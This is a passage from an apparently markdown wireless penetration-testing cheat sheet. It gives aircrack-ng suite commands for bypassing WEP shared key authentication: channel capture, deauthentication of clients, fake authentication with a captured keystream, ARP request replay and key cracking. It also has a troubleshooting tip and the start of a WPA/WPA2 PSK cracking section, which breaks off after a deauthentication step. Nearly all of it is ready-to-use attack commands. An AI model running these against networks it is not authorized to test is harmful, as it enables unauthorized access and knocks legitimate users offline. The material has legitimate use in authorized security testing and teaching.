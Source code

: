 Start an Airodump-ng capture, filtering on the AP channel and BSSID, saving the capture:

```
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```

Deauthenticate the connected client to capture the PRGA XOR keystream:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Conduct a fake shared key authentication using the XOR keystream:

```
aireplay-ng -1 0 -e <ESSID> -y <keystreamfile> -a <AP MAC> -h <Your MAC> <interface>
```

Launch the ARP request replay attack:

```
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
```

Deauthenticate the victim client again to force the generation of an ARP packet:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```

Once IVs are being generated by the AP, run Aircrack-ng against the capture:

```
aircrack-ng <capture>
```
### Troubleshooting<a name="Troubleshooting"></a>

During a Sharing Key Authentication Bypass attack, if once you deauthenticate a client you got a "Broken SKA" message instead of the "140 bytes keystream : <MAC address>" into your Airodump output. Try to restart the Airodump-ng capture and deauthenticate another client.
 
## Cracking WPA/WPA2 PSK<a name="WPA"></a>

### WPA - Crack<a name="WPA-Crack"></a>

Start by placing your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```

Start an Airodump capture, filtering on the AP channel and BSSID, saving the capture to disk:

```
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```

Deauthenticate a connected client to force it to complete the 4-way handshake:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```
